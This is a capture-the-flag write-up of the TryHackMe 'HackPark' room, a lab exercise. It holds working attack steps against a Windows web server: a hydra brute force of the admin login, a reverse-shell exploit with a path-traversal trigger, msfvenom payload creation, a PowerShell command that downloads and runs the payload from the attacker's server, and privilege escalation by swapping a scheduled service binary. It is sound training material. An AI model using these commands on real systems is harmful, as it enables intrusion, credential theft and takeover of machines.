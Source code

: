 ```yaml
---
title: HackPark-writeup-THM
date: 2023-12-28 11:00:00
categories: [room, medium]
tags: [windows, privesc, hydra]     # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled.png
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/hackpark">HackPark</a>"

First of all I am going to do a nmap scan:

```bash
nmap -Pn <Machine IP>

Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org/) ) at 2023-12-28 05:20 EST
Nmap scan report for 10.10.100.75
Host is up (0.054s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 5.97 seconds
```

I have usend -Pn because the machine does not respond to ping.

We can see that it has port 80(web page) and port 3389(rdp) open.

For now I am just going to see the web page.

![Untitled](https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled.png)

From here I can do a reverse image research with google images to uncover the clown identity!

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt <Machine_IP> http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed”

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 05:43:08
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.100.75:80/Account/login.aspx?ReturnURL=%2fadmin%2f?ReturnURL=/admin/:__VIEWSTATE=EOQdZQUirRo%2FPUM0GeZEHUCUj2T4rRAdTaQhFI1ySIpm9C8mzxvnNNrRnjAQpjhVlBKOWm1gYZ35tUhQtBunvQ4xbDH%2B0tCVubOn7duj0udoaup%2BbQ5ohSDr%2FkR3znBlND9uVF6IyceARqKMmH7Lr6Ybud38aeXVlK%2FHUbFoRC7QG7j2SmTr2Yo2DP9Z8iuvNgq3V%2F6TWN9zRuY5L41FLVK4aRfYv2wwJyCsYpMBCqqxwwbKVvzuKrxaztrLzQzW7yYMpMYMVupE4S6NoZ%2BI3eAoSEOX9EYCmHNJo7ArRyHf6NaUD4ziHK02Fxf7zNrhsEv6eMLzKY%2FwxcNNYPtZmPZraazfs5Eak1UrAb4bcd%2F5U674&__EVENTVALIDATION=vv0szo0PNWcBRD3S8W58LlYPikRW%2B87zibRx%2F2E7pAtvEDnvbhdcw%2FwUE3c9c3MRswdhWJXJYFE%2Ff4zg9IxkwN13iQf3WP6ILJMuG5mkvCeF1g9rdSkXPBc5%2FKAUY2e4duaTxrTr4klY8YZ4bVhdDhot4KoE7a8pfuEkc1chGV1n%2B4Iv&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.100.75   login: admin   password: <redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-28 05:44:04
```

Found the password!

Now we need to get a reverse shell, this can be done by searching in exploit DB using the database version in http://10.10.100.75/admin/about.cshtml

After we install the exploit, we need to change the attacker ip and port to ours

```bash
using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<YOUR_IP>", <YOUR_PORT>)) {
```

Then we rename the file into PostView.ascx

After that we set up a listener:

```bash
nc -lvnp 4444
```

And we go to publish it

![Untitled](https://raw.githubusercontent.com/Blueaulo/HackPark-writeup-THM/main/f9435039-eb3c-4916-95b0-d0ba6c645332_Export-6a5d592a-f11c-4d5a-b4c1-719215eeb992/HackPark%20633b8e08ffeb4b57aad24df8cd964607/Untitled%201.png)

After that we just want to go to this path: `http://10.10.10.10/?theme=../../App_Data/files` for triggering the reverse shell!

Now, we want to upgrade the shell using metasploit.

First of all we create our revshell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp  LHOST=<YOUR_IP> LPORT=4555 -f exe -o revshell.exe
```

then we set up our listener inside metasploit:

```bash
use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST <YOUR_IP>

LHOST => <YOUR_IP>
msf6 exploit(multi/handler) > set LPORT 4555

LPORT => 4555
```

Then we create a server using python:

 `python3 -m http.server 8000`

After that we need to install the reverse shell inside the windows machine,

We need to do this inside the `temp` folder, otherwise is not going to work:

```bash
powershell Invoke-WebRequest -Uri http://10.18.20.116:8000/revshell.exe -OutFile revshell.exe
```

Then we execute the file and we have the shell!

now we need to search for the OS, we just need to use **sysinfo**

And for the processes **ps**

The hint tells us to check “C:\Program Files (x86)”

So I did:

```bash
c:\Program Files (x86)>dir
 
Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Program Files (x86)
08/06/2019  01:12 PM    <DIR>          .
08/06/2019  01:12 PM    <DIR>          ..
08/22/2013  07:39 AM    <DIR>          Common Files
03/21/2014  11:07 AM    <DIR>          Internet Explorer
08/22/2013  07:39 AM    <DIR>          Microsoft.NET
12/28/2023  04:49 AM    <DIR>          SystemScheduler
08/22/2013  07:39 AM    <DIR>          Windows Mail
08/22/2013  07:39 AM    <DIR>          Windows NT
08/22/2013  07:39 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
               9 Dir(s)  39,124,586,496 bytes free
```

The only thing strange to me is SystemScheduler, if we open the directory, we can see a bunch of processes.

Going in the Events, directory, and opening the log file, will reval to us which is the abnormal service that is running.

We see that the service Message.exe run with the Administrator privileges, and we can use that in our favor.

Now we put in background the meterpreter shell, and then we want to restart the listener again.

Next thing to do is, rename the reverse shell in `/windows/temp` to Message.exe

Then remove Message.exe from the SystemScheduler directory, and put the reverse shell now named Message.exe in it.

Now we just need to start the process.

(Do this with ./Message.exe or Start-Process “Message.exe”)

And we got a Admin shell!

Then I found the jeff flag in: `C:\Users\Jeff\Desktop\user.txt`

And the root flag in: `C:\Users\Administrator\Desktop\root.txt`